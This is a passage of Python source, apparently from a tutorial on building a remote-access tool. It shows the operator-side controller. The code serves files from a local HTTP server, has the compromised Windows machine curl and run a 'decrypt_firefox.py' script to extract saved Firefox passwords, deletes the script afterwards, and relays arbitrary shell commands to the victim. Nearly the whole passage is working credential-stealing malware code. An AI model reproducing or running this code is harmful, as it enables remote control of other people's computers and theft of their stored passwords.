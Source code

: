 ```python
            print(colored(f"Error al copiar el archivo: {e}", 'red'))
        return directory

    def start_local_http_server(self, directory):
        try:
            self.server_process = subprocess.Popen(["python3", "-m", "http.server", "80", "-d", directory], stdout=subprocess.PIPE, stderr=subprocess.PIPE)
            print(colored("[+] HTTP Server started successfully", 'green'))
        except Exception as e:
            print(colored(f"\n[!] Error, you need to check if you have any services on port 80: {e}\n", 'red'))

    def stop_local_http_server(self):
        if self.server_process:
            self.server_process.terminate()
            print(colored("[+] HTTP Server stopped successfully", 'green'))

    def get_firefox_passwords(self):
        directory = self.check_path()
        self.start_local_http_server(directory)
        try:
            win_user = self.command_remotely("whoami")
            win_user_str = win_user.split("\\")[1]
            release = self.command_remotely(f'dir /s /b /ad "C:\\Users\\{win_user_str}\\AppData\\Roaming\\Mozilla\\Firefox\\Profiles\\*release*"')
            command = f"cd C:\\Users\\{win_user_str}\\AppData\\Local\\Temp && curl http://{self.ip}/decrypt_firefox.py -o decrypt_firefox.py && python decrypt_firefox.py {release}"
            command_output = self.command_remotely(command)
            print(colored(f"\nSent command: {command}\n", 'yellow'))
            print("\n" + command_output + "\n")

            try:
                # Cleaning
                pwd = f"del C:\\Users\\{win_user_str}\\AppData\\Local\\Temp\\decrypt_firefox.py"
                self.command_remotely(pwd)
                shutil.rmtree(directory)
                self.stop_local_http_server()
            except:
                print(colored(f"[!] it has not been possible to delete the file 'decrypt_firefox.py' if you run 'firefox' again it will not be possible.", 'red'))
                pass
        except Exception as e:
            print(colored(f"[!] Error: {e}", 'red'))

    def run(self):
        while True:
            command = input(colored(">> ", 'green'))
            if command == "get users":
                self.get_user(command)
            elif command == "firefox":
                self.get_firefox_passwords()
            elif command == "help":
                self.help_panel()
            else:
                command_output = self.command_remotely(command)
                print(command_output)

```
I will explain the most important parts of the code as follows:
